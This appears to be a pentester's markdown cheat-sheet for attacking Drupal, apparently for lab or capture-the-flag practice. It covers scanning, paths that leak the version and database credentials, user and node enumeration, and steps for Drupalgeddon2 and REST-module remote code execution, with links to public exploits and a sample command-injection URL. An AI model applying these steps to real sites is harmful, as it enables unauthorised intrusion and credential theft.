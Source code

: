 # drupal

## Droopescan

```bash
droopescan scan drupal -u <URL>
```

## Interesting Paths

```bash
# version
/core/CHANGELOG.txt

# rest API endpoint
/rest

# contains version of drupal
view-source of home page
/CHANGELOG.txt
/core/install.php

# contains db creds
/sites/default/settings.php
```

## manual enumeration

```bash
# user enumeration via register page
admin

# number of users enumeration
/user/<number> until error

# hidden post enumeration 
/node/<number> for 1-100
wfuzz -c -z range,1-100 -u IP/node/FUZZ
[--hh ignore-errors-chars]

# php plugin installation check
# 403 = good, 404 = not installed
/modules/php
```

## Drupalgeddon2 (tested on v.7.56 & 7.54) should work on 7.x

< 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1

```
# php based; sudo apt install php-curl
https://www.exploit-db.com/exploits/41564
/rest
# creates two files - session.json, user.json
# use session.json, hijack session using session_name & session_id
# > Modules tab > enable PHP filter > saveM B
# > Add Content (top left) > Basic Page > 
# use php code to upload and run cmd
# example of run command: http://10.10.10.9/node/2?cmd=whoami; http://10.10.10.9/node/2?fupload=file

# ruby 
https://github.com/dreadlocked/Drupalgeddon2
sudo gem install highline
./drupalgeddon2.rb

https://www.exploit-db.com/exploits/44449
```

## REST module RCE

v <8.6.9

```
# might need to revert box / clear cache, as nodes shouldn't be cached
https://www.exploit-db.com/exploits/46459
```

